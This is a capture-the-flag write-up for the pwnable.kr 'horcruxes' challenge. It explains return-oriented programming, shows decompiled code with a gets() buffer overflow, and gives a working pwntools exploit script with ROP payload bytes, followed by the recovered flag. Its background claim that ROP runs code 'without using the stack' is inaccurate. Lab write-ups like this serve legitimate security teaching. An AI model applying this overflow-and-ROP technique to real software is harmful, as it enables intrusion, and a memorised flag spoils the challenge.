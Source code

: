 # horcruxes

## Description

horcruxes - 7 pt

> Voldemort concealed his splitted soul inside 7 horcruxes. <br>
> Find all horcruxes, and ROP it! <br>
> author: jiwon choi <br> <br>
> ssh horcruxes@pwnable.kr -p2222 (pw:guest)

## Solution

### Background

#### ROP

ROP stands for Return Oriented Programming. It is a technique that allows us to execute code without using the stack, based on the fact that the return address of a function is stored in the stack.

Basically, ROPing is done by overwriting the return address of a function, with some other address that we want to jump to. 

It is important to note that modern calling conventions require that the stack is aligned to 16 bytes. However, when we jump from one function, say `f`, to another - `g`, using ROP, we don't push a return address to the stack. And so, when entering `g`, after pushing the old base pointer - the stack will not be aligned to 16 bytes.

We can solve this problem by overwriting 8 more bytes after the return address. We will overwrite the **return address** with the address of *another* (or the same) return instruction, and overwrite the **next 8/4 bytes** with the address of the function we want to jump to.

The program will jump to a return instruction, and from there to the function we want to jump to. Thus, 2 pop instruction will be executed, and the stack will be aligned to 16 bytes. 


### Exploit

In this challenge we are given a binary, and a readme file that explains where to connect to. The binary is a 32 bit ELF file, and we can see that it has no canary.

Here are the (relevant) results of decompiling the binary:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  ...

  init_ABCDEFG();
  
  ...
  
  return ropme();
}
```

```c
int init_ABCDEFG()
{
  ...
  a = -559038737 * rand() % 0xCAFEBABE;
  b = -559038737 * rand() % 0xCAFEBABE;
  c = -559038737 * rand() % 0xCAFEBABE;
  d = -559038737 * rand() % 0xCAFEBABE;
  e = -559038737 * rand() % 0xCAFEBABE;
  f = -559038737 * rand() % 0xCAFEBABE;
  g = -559038737 * rand() % 0xCAFEBABE;
  result = f + e + d + c + b + a + g;
  sum = result;
  return result;
}
```

```c
int ropme()
{
  int v1; // [esp-Ch] [ebp-84h]
  int v2; // [esp-8h] [ebp-80h]
  int v3; // [esp-4h] [ebp-7Ch]
  char v4[100]; // [esp+4h] [ebp-74h] BYREF
  int v5; // [esp+68h] [ebp-10h] BYREF
  int v6; // [esp+6Ch] [ebp-Ch]

  printf("Select Menu:");
  __isoc99_scanf("%d", &v5);
  getchar();
  if ( v5 == a )
  {
    A();
  }
  else if ( v5 == b )
  {
    B();
  }

  ...

  else if ( v5 == g )
  {
    G();
  }
  else
  {
    printf("How many EXP did you earned? : ");
    gets(v4);
    if ( atoi(v4) == sum )
    {
      v6 = open("flag", 0);
      v4[read(v6, v4, 100)] = 0;
      puts(v4);
      close(v6);
      exit(0, v1, v2, v3);
    }
    puts("You'd better get more experience to kill Voldemort");
  }
  return 0;
}
```

The porgram starts by calling `init_ABCDEFG`, which initializes the variables `a`, ..., `g` with random values. Then, it calls `ropme`. There, we are asked to choose a number. If it is equal to one of the variables, we will jump to the function `A`, ..., `G` respectively. Otherwise, we will be asked to enter another number. If it is equal to the sum of the variables, we will get the flag.

The functions `A`, ..., `G` are all the very similar. They all print a message, and the value of `a`, ..., `g` respectively.

At a first glance, it seems that the ROP is very simple - we overflow on `gets(v4)` and overwrite the return address jumping to the `v6 = open("flag", 0);` line. However, there is a problem - in the `ropme` function, all of the addresses are of the format `0x80a0XXX`. Since `0a` is also the ascii code of `\n`, we can't use it in our payload.

And so, the solution is to jump to each and every one of the functions `A`, ..., `G`, sum the values of `a`, ..., `g`, and then jump to the call to `ropme` from the `main` function (since we can't jump anywhere inside `ropme`). Then, we will insert the sum and get the flag.

As we mentioned before, we need to consider stack alignment. Everytime we want to jump anywhere, we must first jump to a return instruction, and then to the address we want to jump to.
Here is the exploit:

```python
from pwn import *
import numpy as np
import re

con = remote('pwnable.kr', 9032)

con.sendline(b'1\n' + b'\x41'*100 + b'\x42'*4*5 + b'\x69\xfe\x09\x08' + 
            b'\x4b\xfe\x09\x08' + b'\x69\xfe\x09\x08' + b'\x6a\xfe\x09\x08' +
            b'\x69\xfe\x09\x08' + b'\x89\xfe\x09\x08' + b'\x69\xfe\x09\x08' +
            b'\xa8\xfe\x09\x08' + b'\x69\xfe\x09\x08' + b'\xc7\xfe\x09\x08' +
            b'\x69\xfe\x09\x08' + b'\xe6\xfe\x09\x08' + b'\x69\xfe\x09\x08' +
            b'\x05\xff\x09\x08' + b'\x69\xfe\x09\x08' + b'\xfc\xff\x09\x08')

con.recvuntil(b'Select Menu:')

horcruxes = con.recvuntil(b'Select Menu:')
soul_parts = re.findall(b'EXP \+([0-9-]*)', horcruxes)
soul = np.int32(np.sum([np.int32(_.decode()) for _ in soul_parts]))

con.sendline(b'1')
con.sendline(str(soul).encode() + b'\x00')

con.interactive()
```

```
Magic_spell_1s_4vad4_K3daVr4!
